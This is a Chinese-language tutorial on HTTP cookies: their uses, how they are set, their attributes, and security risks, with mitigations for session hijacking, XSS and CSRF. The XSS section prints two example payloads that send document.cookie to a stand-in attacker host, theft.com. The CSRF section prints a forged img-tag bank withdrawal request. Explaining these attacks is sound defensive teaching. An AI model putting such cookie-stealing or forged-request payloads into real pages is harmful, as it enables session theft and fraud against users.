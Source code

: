 ## Cookie用途

**记录会话**

  我们都知道http为无状态协议，即使客户端C上一次请求A告诉服务端S他是谁，下一次请求B到服务端S时，服务端S依然不知道是谁在访问，所以需要一个记录来跟踪用户登录状态，最常用的就是Cookie了，现在也有很多不传送cookie，走http headers进行认证，这样的话可以减少传送一些客户端才需要使用的cookie，节省带宽，而且更安全

**行为分析**

  通过cookie去跟踪用户的轨迹和使用情况，分析这些这些数据，（用户浏览了什么页面和内容/什么时候访问的/在当前页面停留多久/浏览最多的页面/查询最多的关键词等），从而可以定向精准的投放广告服务或者个性化服务，例如谷歌搜索，会记录你每次的搜索关键词，向你推荐相关关键词，了解你的兴趣爱好

## Cookie设置
cookie的设置方式又2种，第一种是由服务端的响应头中添加Set-Cookie，该响应头可以有多个同时存在，如
```js   
HTTP/1.1 200 OK
Content-type: text/html
Set-Cookie: theme=light
Set-Cookie: sessionToken=abc123; Expires=Wed, 09 Jun 2021 10:18:14 GMT; httponly
```
第二种在客户端通过js进行设置，如
```js
document.cookie='cookieName=cookieValue; expires=Tue, 06 Apr 2021 11:46:35 GMT; path=/; domain=xxx.com; secure;samesite=strict'
```
#### 属性说明

- **expires** => 值为GMT时间字符表示过期的日期点，可以设置该值为过去日期来删除该cookie<br>

- **maxage** => 表示过期的时间长度，单位为S<br>

- **path** => 限制cookie在该路径下，只能在该路径下才能发送<br>

- **domain** => 限制cookie在该域下，可以在该域和子域下发送，如果没有设置则只在该域下发送<br>

- **secure** => 限制只能在https下加密传输<br>

- **samesite** => 控制跨域下请求是否发送cookie,有三个值，分别为none(可以),strict（只在同域下发送站点）,lax（和strict差不多，不过只能通过link这种外部导航方式进入才会发送），默认为lax<br>

- **httponly** => 只通过http暴露cookie,这就表示不能通过js脚本document.cookie设置和访问<br>

#### 注意事项
`1. 没有设置expires或者maxage则默认为会话cookie，浏览器关闭之后则消失，反之为持久cookie`<br>

`2. 没有设置domain或者path则默认只能在当前域或路径下传送cookie`<br>

`3. 删除时，domain和path需要该cookie一致`<br>

`4. httponly只能通过服务端Set-Cookie设置`<br>

`5. 同源策略-不能设置和获取其他域的cookie`<br>
## Cookie安全
### SessionHijacking（会话劫持）
在客户端和服务端之间进行cookie的传输时，网络上的流量可以被发送方以外的网络上的计算机拦截和读取，特别是在未加密开放式的wifi上，通过拦截到的cookie来冒充用户发起恶意行为<br>

1.可以使用https加密传输，同时设置secure只能通过https进行传输<br>
2.随机方式生成会话，或者基于用户信息+时间+ip地址生成会话
### XSS（跨站脚本攻击）
在客户端执行了没有经过过滤的恶意代码将cookie发送到第三方服务器上，即使cookie添加了secure，如果第三方服务器启用了https，一样会被发送,如下代码
```js
 (new image()).src='https://theft.com/transparent.jpg?cookie='+document.cookie;
```
```html
<a href="#" onclick="window.location = 'http://theft.com/stole?cookie=' + encodeURIComponent(document.cookie); return false;">点击</a>
```
**1.杜绝源头**

- 存储时进行转义
- 不要引用来自不受信任域的js文件

**2.执行控制**

- 在输出时先对内容（来自url参数或者ajax）进行转义如（ & < > " ' / javascript:）
- 注意使用eval()、setTimeout()、setInterval()、innerHTML、document.write()等可以执行字符串的代码
- 由服务端通过Set-Cookie设置httponly，使document.cookie无法获取
### CSRF（跨站请求伪造）
代表用户在其他地方发起一个伪造的请求，假如在一个没有做输入过滤的论坛上接收到一个消息，该消息为如下代码
```html
<img src="http://bank.com/withdraw?account=you&amount=1000000&for=attacker">
```
如果此时你正好登录了bank.com且cookie有效，那该条消息会携带cookie向银行服务器发送一个转账的请求，银行通过cookie发现有效，则会执行转账操作

- 尽量减少敏感cookie失效时间
- 设置SameSite为lax同源策略，跨域时cookie不会被发送
- 敏感请求应该提供再次确认，如收到该请求后告知前端需要滑块验证或者输入用户信息，通过后回传才能继续执行
- 通过请求头origin或者referrer验证请求来源，且改用post方式（虽然请求头可以伪造，但是可以抵挡部分虚假和get请求）
- 不通过cookie进行认证，可添加一个自定义请求头进行认证，其值为动态生成的随机字符串
- 输入和输出过滤
- 在请求中添加cookie对应的token，对比请求中的token和cookie是否一致（cookie同源策略-伪造者不能设置和获取其他域的cookie到token中）

